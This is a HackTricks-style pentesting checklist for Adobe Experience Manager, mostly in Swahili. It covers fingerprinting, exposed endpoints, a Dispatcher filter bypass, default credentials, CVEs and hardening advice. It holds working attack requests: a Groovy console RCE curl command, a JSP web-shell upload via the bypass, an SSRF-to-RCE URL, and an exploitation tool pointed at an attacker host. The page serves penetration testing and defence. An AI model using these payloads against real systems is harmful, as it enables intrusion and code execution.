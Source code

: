 # AEM (Adobe Experience Manager) Pentesting

{{#include ../../banners/hacktricks-training.md}}

> Adobe Experience Manager (AEM, sehemu ya Adobe Experience Cloud) ni CMS ya biashara inayotumia Apache Sling/Felix (OSGi) na Java Content Repository (JCR).
> Kutoka kwa mtazamo wa mshambuliaji, mifano ya AEM mara nyingi huonyesha hatari za maendeleo, sheria dhaifu za Dispatcher, akreditivu za default na orodha ndefu ya CVEs ambazo zinarekebishwa kila robo mwaka.

Orodha ya ukaguzi hapa chini inazingatia **uso wa shambulio unaoweza kufikiwa kwa nje (unauth)** ambao unaendelea kuonekana katika ushirikiano halisi (2022-2025).

---

## 1. Fingerprinting
```
$ curl -s -I https://target | egrep -i "aem|sling|cq"
X-Content-Type-Options: nosniff
X-Dispatcher: hu1            # header added by AEM Dispatcher
X-Vary: Accept-Encoding
```
Other quick indicators:
* `/etc.clientlibs/` njia ya kudumu inapatikana (inarudisha JS/CSS).
* `/libs/granite/core/content/login.html` ukurasa wa kuingia wenye bendera ya “Adobe Experience Manager”.
* `</script><!--/* CQ */-->` maoni chini ya HTML.

---

## 2. Mipaka ya juu ya thamani zisizo na uthibitisho

Path | Unachopata | Maelezo
---- | ------------- | -----
`/.json`, `/.1.json` | JCR nodes kupitia **DefaultGetServlet** | Mara nyingi imezuiwa, lakini *Dispatcher bypass* (angalia chini) inafanya kazi.
`/bin/querybuilder.json?path=/` | QueryBuilder API | Kuvuja kwa mti wa ukurasa, njia za ndani, majina ya watumiaji.
`/system/console/status-*`, `/system/console/bundles` | OSGi/Felix console | 403 kwa kawaida; ikiwa imefunuliwa & sifa zimepatikana ⇒ bundle-upload RCE.
`/crx/packmgr/index.jsp` | Package Manager | Inaruhusu pakiti za maudhui zilizothibitishwa → kupakia mzigo wa JSP.
`/etc/groovyconsole/**` | AEM Groovy Console | Ikiwa imefunuliwa → utekelezaji wa Groovy / Java bila mipaka.
`/libs/cq/AuditlogSearchServlet.json` | Kumbukumbu za ukaguzi | Ufunuo wa taarifa.
`/libs/cq/ui/content/dumplibs.html` | Mzigo wa ClientLibs | XSS vector.

### Njia ya kupita ya Dispatcher
Tovuti nyingi za uzalishaji ziko nyuma ya *Dispatcher* (reverse-proxy). Kanuni zake za filtrering zinaweza kupitishwa kwa kuongeza kiambishi cha kudumu **baada ya alama ya semikolon au newline iliyosimbwa**:
```
GET /bin/querybuilder.json;%0aa.css?path=/home&type=rep:User HTTP/1.1
```
A single request like above frequently discloses user profile nodes with email addresses. P-T Partners published good guidance on this weakness. 【】

---

## 3. Makosa ya kawaida ya usanidi (bado yanaendelea mwaka 2025)

1. **Anonymous POST servlet** – `POST /.json` with `:operation=import` lets you plant new JCR nodes.  Blocking `*.json` POST in the Dispatcher fixes it. 【】
2. **Profaili za watumiaji zinazoweza kusomwa na kila mtu** – default ACL grants `jcr:read` on `/home/users/**/profile/*` to everyone.
3. **Akawali za default** – `admin:admin`, `author:author`, `replication:replication`.
4. **WCMDebugFilter** enabled ⇒ reflected XSS via `?debug=layout` (CVE-2016-7882, still found on legacy 6.4 installs).
5. **Groovy Console exposed** – remote code execution by sending a Groovy script:
```bash
curl -u admin:admin -d 'script=println "pwn".execute()' https://target/bin/groovyconsole/post.json
```

---

## 4. Uthibitisho wa hivi karibuni (mzunguko wa huduma)

Quarter | CVE | Affected | Impact
------- | --- | -------- | ------
Dec 2024 | **CVE-2024-43711** | 6.5.21 and earlier | Improper input validation → **Arbitrary code execution** (requires low-priv auth). 【】
Dec 2024 | CVE-2024-43724/26 | 6.5.21 and earlier | DOM / Stored XSS in Move Page Wizard. 【】
Dec 2023 | CVE-2023-48452/68 | ≤ 6.5.18 | DOM-based XSS via crafted URL. 【】
Dec 2022 | CVE-2022-30683 | ≤ 6.5.13 | Crypto design flaw → secret decryption (needs low-priv creds). 【】

Always check the *APSB* bulletin matching the customer’s service-pack and request the latest **6.5.22** or *Cloud Service 2024.11*.

---

## 5. Vipande vya unyakuzi

### 5.1 RCE kupitia bypass ya dispatcher + upakuaji wa JSP
If anonymous write is possible:
```
# 1. Create a node that will become /content/evil.jsp
POST /content/evil.jsp;%0aa.css HTTP/1.1
Content-Type: application/x-www-form-urlencoded

:contentType=text/plain
jcr:data=<% out.println("pwned"); %>
:operation=import
```
Sasa omba `/content/evil.jsp` – JSP inafanya kazi na mtumiaji wa mchakato wa AEM.

### 5.2 SSRF hadi RCE (historia < 6.3)
`/libs/mcm/salesforce/customer.html;%0aa.css?checkType=authorize&authorization_url=http://127.0.0.1:4502/system/console`
`aem_ssrf2rce.py` kutoka **aem-hacker** inafanya mchakato mzima kiotomatiki. 【】

---

## 6. Zana

* **aem-hacker** – skripti ya kuorodhesha ya Swiss-army, inasaidia kupita dispatcher, kugundua SSRF, ukaguzi wa default-creds na zaidi.
```bash
python3 aem_hacker.py -u https://target --host attacker-ip
```【】
* **Content Brute-force** – omba kwa kurudiarudia `/_jcr_content.(json|html)` ili kugundua vipengele vilivyofichwa.
* **osgi-infect** – pakia OSGi bundle hatari kupitia `/system/console/bundles` ikiwa akauti zinapatikana.

---

## 7. Orodha ya kuimarisha (kwa mapendekezo ya ripoti yako)

1. Hifadhi mfano kwenye **pakiti ya huduma ya hivi karibuni** (kuanzia Julai 2025: 6.5.22).
2. Ondoa/zungusha akaunti za default; tekeleza SSO/SAML.
3. Imarisha **Dispatcher filters** – kataa `;`, mistari mipya iliyokodishwa, na `*.json` au `*.querybuilder.json` kwa watumiaji wasiojulikana.
4. Zima au linda consoles (`/system/console`, `/crx/*`, `/etc/groovyconsole`) kwa orodha za ruhusa za IP.
5. Tekeleza pakiti ya *Anonymous Permission Hardening* iliyotolewa na Adobe.

## Marejeleo

* Adobe Security Bulletin APSB24-69 – “Maktaba za usalama kwa Adobe Experience Manager (Desemba 2024)”.
* 0ang3el – zana ya aem-hacker (GitHub).
{{#include ../../banners/hacktricks-training.md}}
